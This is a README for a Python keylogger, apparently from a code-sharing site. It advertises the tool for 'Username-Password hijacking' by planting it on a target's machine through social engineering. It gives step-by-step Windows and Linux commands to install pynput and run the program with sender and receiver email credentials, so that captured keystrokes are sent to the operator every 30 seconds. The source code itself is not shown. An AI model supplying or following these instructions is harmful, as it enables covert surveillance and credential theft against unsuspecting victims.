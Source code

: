 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
       1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
       1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly                for your device python.exe location)      
       1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py                -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
       1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
       2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
       1.2-) cd /root/PycharmProjects/Keylogger
       1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress'                                    password)
       1.4-) If you have any problem in LINUX do as follows : 
             sudo apt update
             sude apt install python3
             sudo apt-get install python3-dev
             sudo apt install python3-pip 
```
And your program will run without any error.
IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
